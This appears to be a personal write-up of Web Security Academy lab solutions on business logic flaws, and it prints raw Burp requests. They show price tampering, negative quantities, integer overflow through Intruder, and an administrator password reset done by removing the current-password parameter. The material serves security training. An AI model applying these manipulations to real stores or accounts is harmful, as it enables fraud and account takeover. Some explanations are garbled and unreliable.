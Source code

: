 ## Business logic vulnerabilities

Business logic vulnerabilities need manual intervention as No tool can detect these and they can vary from application to application and very hazardous. 
We have to understand application logic, application functionality, implementations, and business requirements. Whenever we intercept the request,
we have to manipulate specific parameters in the request or so to test for the business logic vulnerability


 ## Some common example of business logic:
 
 Manipulation in the product price in the request so we can purchase products in less amount during the online shopping.
 
 Manipulation in user-supplied input (too much quantity or –ve quantity) and not checked from the server-side.
 
 Manipulation in intended flow (2FA).
 
 ## 1. Manipulation in the product price in the request so we can purchase products in less amount during the online shopping.
 
 With Burp running, log in and attempt to buy the leather jacket. The order is rejected because you don't have enough store credit. 
 
 In Burp, go to "Proxy" > "HTTP history" and study the order process. Notice that when you add an item to your cart,
 the corresponding request contains a price parameter. Send the POST /cart request to Burp Repeater. 
 
 ## Request 
 
    POST /cart HTTP/1.1
    Host: 0a5d00c0038b8062c09a11d7009700cc.web-security-academy.net
    Cookie: session=VQHFrZjrndyN8kEb1ivgOD4X9YydBrGB
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 49
    Origin: https://0a5d00c0038b8062c09a11d7009700cc.web-security-academy.net
    Referer: https://0a5d00c0038b8062c09a11d7009700cc.web-security-academy.net/product?productId=1
    Upgrade-Insecure-Requests: 1
    Sec-Fetch-Dest: document
    Sec-Fetch-Mode: navigate
    Sec-Fetch-Site: same-origin
    Sec-Fetch-User: ?1
    Te: trailers
    Connection: close

    productId=1&redir=PRODUCT&quantity=1&price=133700
    
 ## Note That Show Price in request 
 
     productId=1&redir=PRODUCT&quantity=1&price=133700   
     
 So Change The Price and sand the request in server, like server is accept the request, here business logic vulnerabilities
 
 
 ## 2. High-level logic vulnerability
 
 Your card amount 100$ but you wante purchase 200$ product, buy 2 product first product price 50$ and secand product price 150$
 
 First Product nurp request sand burp repeter and  Observe that product quantity=1 so chnage the product guantity add -
 
 just like quantity=-2 and sand the request in server, accept the request, this is vulnerability 
 
 ## Request 
 
    POST /cart HTTP/1.1
    Host: 0ab6005b04eb8061c0d3246e00430049.web-security-academy.net
    Cookie: session=BC6C85CuO7OKzvT5oSjqsThv5qBb6Xap
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 37
    Origin: https://0ab6005b04eb8061c0d3246e00430049.web-security-academy.net
    Referer: https://0ab6005b04eb8061c0d3246e00430049.web-security-academy.net/product?productId=2
    Upgrade-Insecure-Requests: 1
    Sec-Fetch-Dest: document
    Sec-Fetch-Mode: navigate
    Sec-Fetch-Site: same-origin
    Sec-Fetch-User: ?1
    Te: trailers
    Connection: close

    productId=2&redir=PRODUCT&quantity=1
 
 Change The product header like quantity=1 so change quantity=-2
 
    productId=2&redir=PRODUCT&quantity=-2
    
 Your product price 100$ so buy know the product price 200$ but this is vulnerable so your product price 100$
     
     
 ## 3. Low-level logic flaw
 
 First Add 2 product, first product price is 100$, secand product price is 200$, Total price is 300$, 
 
 some appliction limited add product, so add unlimited product the price is less the price {-} so this is vulnerblity
 
 how to find, simple, On the "Payloads" tab, select the payload type "Null payloads". Under "Payload options", select "Continue indefinitely". Start the attack 
 
 While the attack is running, go to your cart. Keep refreshing the page every so often and monitor the total price. Eventually, notice that the price suddenly switches to a large negative integer
 
 ## This is Vulnerblity
 
 Create the same Intruder attack again, but this time, under "Payloads" > "Payload Options", choose to generate exactly 323 payloads. 
 
 Notice That the price is negative like -100 so add some product and price is positive 100 so buy the product, This is Low-level logic flaw vulnerblity
  
 
 ## 4. Inconsistent security controls
 
 I found a Loging page but this loging page only for allow admin user like asif@admin.com email user, but i have gmail user like asif@gmail.com so 
 
 First reqester account is local user like asif@gmail.com secand update email fuction i am use a asif@admin.com so this email is update 
 
 ## This is Vulnerblity
 
 
 ## 5. Weak isolation on dual-use endpoint
 
 With Burp running, log in and access your account page.
 
 Change your password. 
 
 Study the POST /my-account/change-password request in Burp Repeater.
 
 Notice that if you remove the current-password parameter entirely, you are able to successfully change your password without providing your current one. 
 
 Observe that the user whose password is changed is determined by the username parameter. Set username=administrator and send the request again. 
 
## The Request is Accepted This is Vulnerblity
 
 
    POST /my-account/change-password HTTP/1.1
    Host: 0af200a303444b49c0479118006f0066.web-security-academy.net
    Cookie: session=cLpA7MwciG5r6gQg0qijALMT0lUaf6FK
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 131
    Origin: https://0af200a303444b49c0479118006f0066.web-security-academy.net
    Referer: https://0af200a303444b49c0479118006f0066.web-security-academy.net/my-account
    Upgrade-Insecure-Requests: 1
    Sec-Fetch-Dest: document
    Sec-Fetch-Mode: navigate
    Sec-Fetch-Site: same-origin
    Sec-Fetch-User: ?1
    Te: trailers
    Connection: close

    csrf=yMlABSWkf5sH22vGwGQQLiWMKK4lhUYl&username=administrator&current-password=hi&new-password-1=khan&new-password-2=khan
 
 
 Note That Last Header like current-password=hi so remove the current-password parameter and sand the request is server, the server accept the
 
 request This is Vulnerabley
 
 
 
 
 
 
 
 
 
  
